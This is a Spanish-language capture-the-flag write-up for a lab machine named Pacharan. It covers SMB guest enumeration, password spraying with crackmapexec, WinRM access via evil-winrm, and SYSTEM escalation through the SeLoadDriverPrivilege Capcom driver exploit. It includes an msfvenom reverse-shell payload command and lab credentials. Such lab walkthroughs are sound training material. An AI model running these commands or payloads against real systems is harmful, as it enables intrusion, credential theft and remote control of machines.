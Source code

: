 sudo arp-scan --interface=eth1 --localnet

192.168.1.148

nmap: 
![[the hackers labs/avanzado/pacharan/test1.png]]

--------

En el escaneo nos dio muchos puertos pero nos dio: "smb2-time:" 
podemos empezar a lanzar por SMB. 
lanzamos:

     smbmap -H 192.168.1.148 -u invitado


![[the hackers labs/avanzado/pacharan/test2.png]]

y nos importa los dos que dicen READ ONLY y volvemos a lanzar un smbmap pero utilizando los IPC:

     smbclient -U invitado //192.168.1.148/NETLOGON2

nos da un txt con: Pericodelospalotes6969

![[the hackers labs/avanzado/pacharan/test3.png]]

ahora tenemos un usuario y una posible contraseña, lanzamos:

     smbmap -H 192.168.1.148 -u orujo -p Pericodelospalotes6969



![[the hackers labs/avanzado/pacharan/test4.png]]

ahora nos dio un "ah.txt" lo pasamos a nuestro terminal 

![[the hackers labs/avanzado/pacharan/test5.png]]

ahora vamos a enumerar los usuarios con "rpcclient" con el de Orujo

     rpcclient -U 'Orujo' 192.168.1.148 

![[the hackers labs/avanzado/pacharan/test6.png]]

ahora todos esos nombres los vamos a meter a un txt. 

>Administrador
Invitado
krbtgt
DefaultAccount
Orujo
Ginebra
Whisky
Hendrick
Chivas Regal
Whisky2
JB
Chivas
beefeater
CarlosV
RedLabel
Gordons

lanzamos: 

     crackmapexec smb 192.168.1.148 -u user.txt -p ah.txt

![[the hackers labs/avanzado/pacharan/test7.png]]

obtenemos: PACHARAN.THL\Whisky:MamasoyStream2er@ 

ahora que tenemos la contraseña podemos usar "rpcclient" otra vez pero con la contraseña que encontramos. 

     rpcclient -U "Whisky%MamasoyStream2er@" 192.168.1.148 -c 'enumprinters'

nos da: 

![[the hackers labs/avanzado/pacharan/test8.png]]

donde marque puede que sea una contraseña. 

lanzamos: 

     crackmapexec winrm 192.168.1.148 -u user.txt -p TurkisArrusPuchuchuSiu1

![[the hackers labs/avanzado/pacharan/test9.png]]

obtenemos: [+] PACHARAN.THL\Chivas Regal:TurkisArrusPuchuchuSiu1 (Pwn3d!)

**"Pwn3d!" se usa cuando un sistema, servidor o cuenta ha sido comprometido exitosamente. Ejemplo: si un atacante logra acceso root a un sistema, puede decir "Pwn3d!" para indicar que ha tomado el control total.**

lanzamos:

    evil-winrm -i 192.168.1.148 -u 'Chivas regal' -p TurkisArrusPuchuchuSiu1

y obtenemos 

![[the hackers labs/avanzado/pacharan/test10.png]]

ahora vamos a escalar privilegios, vamos a crear una carpeta con los exploit que necesitaremos para escalar y aquí hay una explicación sobre la escalada: https://www.tarlogic.com/es/blog/explotacion-seloaddriverprivilege/

nos vamos a la carpeta raíz y creamos un /tmp y dentro empezamos a cargar los exploit.
https://github.com/JoshMorrison99/SeLoadDriverPrivilege

     upload LoadDriver.exe

     upload Capcom.sys

     upload ExploitCapcom.exe 

pasamos esos exploit a la maquina victima, y nos creamos una reverse shell 

     msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=443 -f exe -o rev.exe

ahora pasamos la rev.exe a la maquina victima, colocamos el terminal nuestro en escucha y ejecutamos el exploit junto a la reverse shell.

     .\ExploitCapcom.exe C:\tmp\rev.exe


![[the hackers labs/avanzado/pacharan/test11.png]]

como vemos da: nt authority\system
que es el nivel mas alto de privilegios del sistema. 